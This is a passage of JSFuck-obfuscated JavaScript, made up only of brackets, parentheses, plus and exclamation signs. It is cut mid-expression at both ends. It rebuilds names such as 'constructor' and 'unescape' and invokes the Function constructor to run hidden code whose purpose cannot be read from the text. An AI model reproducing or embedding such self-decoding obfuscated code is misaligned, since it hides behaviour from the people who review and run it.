)[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[+!+[]])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]])()([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[+!+[]]+(+(!+[]+!+[]+[+!+[]]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[+!+[]])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]])()([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[!+[]+!+[]+[+!+[]]]+[!+[]+!+[]+!+[]+!+[]+!+[]]+(![]+[])[+[]])+[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+!+[]]]+([][[]]+[])[+[]]+([][[]]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[+!+[]]+(+(!+[]+!+[]+[+!+[]]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[+!+[]])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]])()([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[+!+[]]+(+(!+[]+!+[]+[+!+[]]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[+!+[]])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]])()([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[!+[]+!+[]+[+!+[]]]+[!+[]+!+[]+!+[]+!+[]+!+[]]+(![]+[])[+[]])+[+!+[]]+([][[]]+[])[+!+[]]+(!![]+[])[+[]]+[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+([![]]+[][[]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+!+[]]]+([][[]]+[])[+[]]+([][[]]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[+!+[]]+(+(!+[]+!+[]+[+!+[]]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[+!+[]])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]])()([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[+!+[]]+(+(!+[]+!+[]+[+!+[]]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[+!+[]])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]])()([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[!+[]+!+[]+[+!+[]]]+(!+[]+!+[]+[+!+[]])+[])+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[(![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]]+([![]]+[][[]])[+!+[]+[+[]]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]]((+((+(+!+[]+[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+[!+[]+!+[]]+[+[]])+[])[+!+[]]+[+[]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+!+[]]])+[])[!+[]+!+[]]+[+!+[]])+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+!+[]]]+([][[]]+[])[+[]]+([][[]]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[+!+[]]+(+(!+[]+!+[]+[+!+[]]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[